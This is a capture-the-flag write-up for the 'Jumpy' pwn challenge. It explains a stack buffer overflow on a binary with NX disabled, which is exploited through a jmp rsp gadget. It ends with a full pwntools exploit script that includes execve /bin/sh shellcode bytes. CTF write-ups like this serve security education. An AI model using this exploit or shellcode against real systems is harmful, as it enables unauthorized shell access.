







# Jumpy [Pwn]

Attached file:[here](/datas/jumpy)

Output of checksec

```sh
$ checksec jumpy
```



The NX is disabled so we can run code on the stack.



Jumpy C code obtained by reverse engineering with ghidra.



In the binary, there is no system function and no function to read the flag. As the stack is executable, we can push shellcode on it and execute it.

First, we need to control the RIP.

I have placed a breakpoint on the ret of the main function.



With 0x38 we can reach the RIP.

For a test, I send this load: "A "*0x38 + "BBBB"



The RIP is well reached.

We can now execute our shellcode on the stack.

payload = "A "*0x38 + RSP_addr + shellcode

We will push the shellcode on the RSP and call the RSP address in the RIP to be able to execute the shellcode.

We don't have the address of the RSP but by doing a little research in the binary we have an instruction that makes a jump on the RSP, that will do the trick.



With the address of this instruction in the RIP, we can make a jump into the RSP and execute what is inside.


payload = "A"*0x38 + p64(0x00401142) + shellcode

Exploit:

```python
from pwn import *

sh = process("./jumpy")
#sh = remote("34.65.228.239",1337)
shellcode = b"\x31\xf6\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdf\xf7\xe6\x04\x3b\x57\x54\x5f\x0f\x05"
payload = b"A"*0x38 + p64(0x00401142) + shellcode

print(sh.recv().decode())
sh.sendline(payload)
sh.interactive()
```
Result:


